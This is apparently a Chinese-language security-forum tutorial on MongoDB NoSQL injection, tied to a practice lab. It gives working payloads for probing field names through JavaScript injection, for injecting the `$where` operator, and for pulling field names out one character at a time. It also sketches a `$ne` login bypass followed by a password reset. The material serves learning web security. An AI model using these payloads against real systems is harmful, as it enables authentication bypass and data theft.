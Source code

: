 ![nosql13.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0eec8ccf1efa08efbd35b8b067510a9afca5d250.png)

![nosql14.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2db7526a045b5d37f33251ae2d653613c087e37b.png)

#### 识别字段名称

由于 MongoDB 处理不需要固定架构的半结构化数据，因此您可能需要先识别集合中的有效字段，然后才能使用 JavaScript 注入提取数据。

例如，要识别MongoDB数据库是否包含字段`password`，您可以提交以下有效负载：

```php
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

再次发送现有字段和不存在字段的有效负载。在此示例中，您知道该`username`字段存在，因此您可以发送以下有效负载：

```php
admin' && this.username!='
admin' && this.foo!='
```

如果该`password`字段存在，您会期望响应与现有字段 ( ) 的响应相同`username`，但与不存在字段 ( `foo`) 的响应不同。

如果您想测试不同的字段名称，您可以通过使用单词列表循环不同的潜在字段名称来执行字典攻击。

### 利用NoSQL运算符注入来提取数据

假设有一个接受的程序：

```php
{"username":"wiener","password":"peter"}
```

要测试是否可以注入运算符，您可以尝试将`$where`运算符添加为附加参数，然后发送一个条件计算结果为 false 的请求，以及另一个计算结果为 true 的请求。例如：

```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
如果存在差异，则存在注入
```

#### 提取字段名称

```php
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

这将检查用户对象中的第一个数据字段并返回字段名称的第一个字符。这使您能够逐字符提取字段名称

### lab

首先说一下大概的思路，也就是利用前面的{\\$ne:''}构造一个万能密码，会发现登录不了也就是（Account locked）需要reset password，这个时候我们直接利用语句`"$where":"Object.keys(this)[1].match('^.{}.*')"`来获取json的名称，类似于

```json
{
"username":"xxxxx"
"password":"xxxxxx"
"forgetPWD":"xxxxx"
}
```
